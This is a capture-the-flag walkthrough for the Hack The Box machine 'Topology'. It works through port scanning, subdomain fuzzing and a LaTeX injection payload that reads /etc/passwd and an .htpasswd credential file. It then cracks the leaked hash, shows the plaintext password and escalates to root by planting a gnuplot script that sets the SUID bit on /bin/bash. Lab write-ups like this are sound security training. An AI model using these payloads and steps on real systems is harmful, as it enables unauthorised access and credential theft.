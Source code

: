 <h2>Target: 10.10.11.217 Topology </h2>

<b>Initial Access:</b><br>
Step 1: nmap -Pn 10.10.11.217 --min-rate=5000 -p-|grep open|awk -F '/' '{print $1}'|tr '\n' ','  <br>
Nmap shows port 22 and 80 are open.

Step 2: Enumerate these open ports further with nmap: nmap -Pn 10.10.11.217 --min-rate=5000 -p 22,80 -sC -sV -oN nmap-topology

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/c996b385-68a5-4091-914b-a5a9f26ec74a) 
 
Step 3: Navigating to port 80 shows: 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/e424c1ba-5f73-4605-b274-8143553fe331) 
 
The page shows an email lklein@topology.htb.  Add into the file /etc/hosts: 10.10.11.217 topology.htb

Step 4: Run subdomain enumeration on topology.htb: wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H “Host: FUZZ.topology.htb” -u “http://topology.htb” --hh 6767



![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/1fdc6552-10d4-4041-a78f-e007ae25fe1a) 
 
Wfuzz found 2 subdomains: dev and stats.  Add those into the file /etc/hosts: 10.10.11.217 topology.htb dev.topology.htb stats.topology.htb

Step 5: Navigating to dev.topology.htb shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/a600aa04-cdd3-4be9-9c9c-a535a044285d) 

Weak credentials don’t work for login and we don’t have credentials so seems like a dead end for now.

Step 6: Navigating port 80 further, we find a ‘LaTeX Equation Generator’ which has a link to http://latex.topology.htb/equation.php.  Add this subdomain into the file /etc/hosts: 10.10.11.217  topology.htb  dev.topology.htb  stats.topology.htb  latex.topology.htb

Navigate to http://latex.topology.htb/equation.php:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/38d86a8e-830a-452e-9006-18af542258ad) 

Google search ‘latex exploit’ finds latex injection articles.  

Step 7: Enter into the input field: `$\lstinputlisting{/etc/passwd}$`

Click on ‘Generate’.  The page shows the contents to /etc/passwd:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/799e6a20-bcf2-4d20-b7f5-b45ea689650e) 
 
Step 8: Check if we can use this lfi to find credentials to dev.topology.htb.  Try reading /var/www/dev/.htpasswd by using payload `$\lstinputlisting{/var/www/dev/.htpasswd}$`:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/377a8d97-70be-43be-8f35-0f4e3bcb80a2) 
 
It works, we found credentials.  

Step 9: Save the credentials image to a file (we will call the filename ‘equation.png’).  An easy way to convert a png file to text is to run the command: tesseract equation.png credentials.txt

Step 10: Now that we have the credentials as text, try to crack the hash.  First, delete the username ‘vdaisley’ and the colon so that the file contains the hash only.  Next, figure out what type of hash is being used: nth -f credentials.txt

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/a9a1b52d-1c81-4e96-afc4-c91e330144e9) 
  
Nth shows that the hash is md5.  

Step 11: Crack the hash: hashcat -m 1600 credentials.txt /usr/share/wordlists/rockyou.txt

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/1b68ddc6-d640-4908-b49e-83ae80a29422) 
 
Hashcat cracked the password: calculus20

Step 12: Try logging into ssh using these credentials: ssh vdaisley@topology.htb → enter password when prompted.

We have shell as user vdaisley.  We can get the flag in /home/vdaisley/user.txt
___________________________________________________________________
<b>Privilege Escalation:</b><br>
Step 1: Upload pspy to the target shell

Step 2: Run pspy to check for running processes: 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/408d97c5-dd78-4afa-9a1f-221eec55c7fd) 
 
Pspy shows some processes running as root from directory /opt/gnuplot.

Step 3: Check file permissions on /opt/gnuplot: ls -al /opt/gnuplot

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/0a1ea25e-6aaf-4170-9e9d-f12fabe45bf5) 
 
We have write permissions to directory /opt/gnuplot. 

Step 4: Google search ‘gnuplot priv esc’ shows articles of how to run commands with gnuplot.  

Write a file on the target shell named test.plt with the contents of: system “chmod 4755 /bin/bash”

Step 5: Move the file test.plt to /opt/gnuplot: mv test.plt /opt/gnuplot

Once the background process runs, it will run test.plt as root and thereby change /bin/bash to suid.

Step 6: Wait a minute for the process to run and then run the command: /bin/bash -p

We have shell as root.  We can get the flag in /root/root.txt
